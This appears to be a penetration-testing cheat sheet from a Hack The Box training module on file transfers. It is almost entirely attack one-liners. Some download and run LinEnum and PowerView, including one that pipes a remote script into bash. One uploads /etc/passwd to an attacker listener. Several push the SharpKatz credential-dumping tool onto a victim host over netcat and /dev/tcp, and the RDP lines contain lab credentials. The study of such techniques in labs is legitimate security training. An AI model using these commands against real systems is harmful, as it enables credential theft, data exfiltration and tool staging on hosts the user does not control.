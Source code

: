 
## Download
#### Python
```shell
h@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```shell
h@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP
```shell
h@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```shell
h@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

```shell
h@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

#### Ruby
```shell
h@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

```shell
h@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

#### JS
Create wget.js:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Run:
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

#### VB
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload

```shell
h@htb[/htb]$ python3 -m uploadserver 
```

```shell
h@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

## Misc

Recieve
```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

```shell
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```shell
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

```shell
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

Send
```shell
jabrach@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

```shell
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell
jabrach@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### PowerShell Session File Transfer
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

#### RDP

```shell
jabrach@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell
jabrach@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

